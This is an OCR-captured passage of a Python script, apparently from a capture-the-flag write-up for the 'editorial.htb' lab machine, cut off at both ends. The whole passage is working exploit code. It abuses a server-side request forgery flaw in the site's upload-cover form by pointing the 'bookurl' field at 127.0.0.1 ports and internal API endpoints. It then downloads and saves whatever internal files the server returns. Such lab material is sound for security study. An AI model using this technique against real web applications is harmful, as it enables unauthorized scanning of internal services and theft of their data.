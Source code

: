 ```python
    data = {
        'bookurl': 'http://127.0.0.1:' + port
    }

    # Headers for the request
    headers = {
        'Host': 'editorial.htb',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0',
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate, br',
        'Origin': 'http://editorial.htb',
        'Connection': 'close',
        'Referer': 'http://editorial.htb/upload',
        'DNT': '1',
        'Sec-GPC': '1'
    }

    # Send the POST request with the files, form data, and headers
    response = requests.post(url, files=files, data=data, headers=headers)

    # Print the response from the server
    if response.text != '/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg':
        print("Found Something Interesting on Port: " + port)
        print(response.text)
        if response.text.startswith("static/uploads/"):
            print("Getting the Interesting File")
            url = 'http://editorial.htb/' + response.text
            print(url)
            res_secret = requests.get(url)
            if res_secret.status_code == 200:
                with open('intresting-file.txt','wb') as file:
                    file.write(res_secret.text.encode())
                return 1
    print("Nothing found on Port: " + port)
    return 0

def getEndpointData(endpoint):
    # URL to which the request will be sent
    url = 'http://editorial.htb/upload-cover'

    # Files to be uploaded
    files = {
        'bookfile': ('', b'', 'application/octet-stream')
    }

    # Form data
    data = {
        'bookurl': 'http://127.0.0.1:5000' + endpoint
    }

    # Headers for the request
    headers = {
        'Host': 'editorial.htb',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0',
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate, br',
        'Origin': 'http://editorial.htb',
        'Connection': 'close',
        'Referer': 'http://editorial.htb/upload',
        'DNT': '1',
        'Sec-GPC': '1'
```